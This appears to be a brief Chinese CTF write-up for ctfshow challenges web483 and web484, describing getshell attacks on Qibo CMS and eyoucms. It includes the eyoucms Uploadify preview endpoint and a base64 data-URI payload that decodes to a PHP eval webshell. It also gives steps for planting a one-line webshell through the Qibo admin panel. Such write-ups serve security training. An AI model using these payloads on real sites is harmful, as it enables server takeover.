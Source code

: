## web483

打开齐博cms的安装界面

直接登陆后台![image-20221227192324728](ctfshow_cms.assets/image-20221227192324728.png)

在栏目管理处输入一句话木马

然后访问`/data/guide_fid.php`直接**getshell**

如果不知道管理员密码，也能配合sql注入拿到账号密码

## web484

eyoucms 前台getshell

访问`/index.php/api/Uploadify/preview`

```php
data:image/php;base64,PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
```

data数据构造一句话木马

查看回显

![image-20221227193920478](ctfshow_cms.assets/image-20221227193920478.png)

访问`/preview/2f2fc58a9ff12cb8d8d6a7173ec5760e.php`  **getshell**